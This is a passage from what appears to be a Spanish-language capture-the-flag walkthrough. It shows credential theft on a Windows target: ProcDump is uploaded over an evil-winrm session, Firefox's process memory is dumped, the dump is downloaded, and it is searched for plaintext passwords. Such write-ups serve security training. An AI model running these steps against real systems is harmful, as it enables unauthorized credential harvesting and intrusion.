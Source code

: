    Optaremos por `procdump64.exe`, ya que es compatible con el sistema operativo de la máquina víctima.

**Subir `ProcDump` a la Máquina Víctima**  
   Utilizamos `evil-winrm` para cargar `procdump64.exe` en el escritorio del usuario objetivo, `Chase`.

   ```powershell
   *Evil-WinRM* PS C:\Users\Chase\Desktop> upload procdump64.exe
   ```

**Aceptar la Licencia de `ProcDump`**  
   Es necesario aceptar la licencia de `ProcDump` antes de utilizarlo. Ejecutamos:

   ```powershell
   *Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -accepteula
   ```

**Identificar el Proceso Objetivo**  
   Utilizamos el comando `Get-Process` para listar los procesos en ejecución y localizar el proceso `firefox`, el cual contiene las credenciales deseadas.

   ```powershell
   *Evil-WinRM* PS C:\Users\Chase\Desktop> get-process -name firefox
   ```

   Esto nos mostrará el `ID` del proceso (PID), necesario para generar el volcado de memoria. Ejemplo de salida:

   ```plaintext
   Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
   -------  ------    -----      -----     ------     --  -- -----------
      355      25    16484      38984       0.27   6104   1 firefox
   ```

**Generar el Volcado de Memoria**  
   Ejecutamos `ProcDump` usando el PID correspondiente (ej., 6104) para crear el volcado de memoria:

   ```powershell
   *Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -ma 6104 firefox.dmp
   ```

   Esto creará un archivo `firefox.dmp` en el escritorio del usuario `Chase`.

**Descargar el Archivo de Volcado**  
   Ahora descargamos `firefox.dmp` para analizarlo en nuestro sistema local:

   ```powershell
   *Evil-WinRM* PS C:\Users\Chase\Desktop> download firefox.dmp
   ```

**Analizar el Volcado de Memoria**  
   En nuestro host local, utilizamos `strings` para buscar cualquier referencia a "password" en el volcado:

   ```zsh
   strings firefox.dmp | grep password
   ```

   Este análisis revela posibles credenciales en texto plano en URLs, variables o configuraciones de la memoria, como por ejemplo:
